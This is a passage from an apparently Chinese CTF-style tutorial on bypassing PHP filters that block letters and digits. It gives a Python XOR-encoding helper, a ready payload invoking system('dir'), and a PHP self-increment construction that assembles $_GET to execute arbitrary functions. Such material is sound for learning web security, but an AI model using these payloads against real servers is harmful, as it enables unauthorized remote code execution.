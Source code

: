 ```python
                return;#返回循环语句中，重新寻找第二个k，这里的话就是寻找y对应的两个字符
for x in range(0,len(mya)): #设置k的范围
    myfun(x,mya)#引用自定义的函数
data1="('"+urllib.request.quote(ans1)+"'^'"+urllib.request.quote(ans2)+"')" #data1等于传入的命令,"+ans1+"是固定格式，这样可以得到变量对应的值，再用'包裹，这样是变量的固定格式，另一个也是如此，两个在进行URL编码后进行按位与运算，然后得到对应值
print(data1)
ans1=""#对ans1进行重新赋值
ans2=""#对ans2进行重新赋值
for k in range(0,len(myb)):#设置k的范围为(0,len(myb))
    myfun(k,myb)#再次引用自定义函数
data2="(\""+urllib.request.quote(ans1)+"\"^\""+urllib.request.quote(ans2)+"\")"
print(data2)
```

构造system('dir');

payload:

```
code=('%0C%05%0C%08%05%0D'^'%7F%7C%7F%7C%60%60')("%04%09%0D"^"%60%60%7F");
```

![image-20230709000624874](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230709000624874.png)

### 自增构造

```php
<?php
$_=[].'';//Array
$_=$_[''=='$'];//A
$_++;//B
$_++;//C
$_++;//D
$_++;//E
$__=$_;//E
$_++;//F
$_++;//G
$___=$_;//G
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;//T
$_=$___.$__.$_;//GET
//var_dump($_);
$_='_'.$_;//_GET
var_dump($$_[_]($$_[__]));
//$_GET[_]($_GET[__])
```

随后可以尝试给`_`和`__`进行GET传参，我们把换行去掉，然后进行一次URL编码（中间件会解码一次），所以我们构造的payload先变成这样：

```
$_=[].'';$_=$_[''=='$'];$_++;$_++;$_++;$_++;$__=$_;$_++;$_++;$___=$_;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_=$___.$__.$_;$_='_'.$_;$$_[_]($$_[__]);
```

编码之后
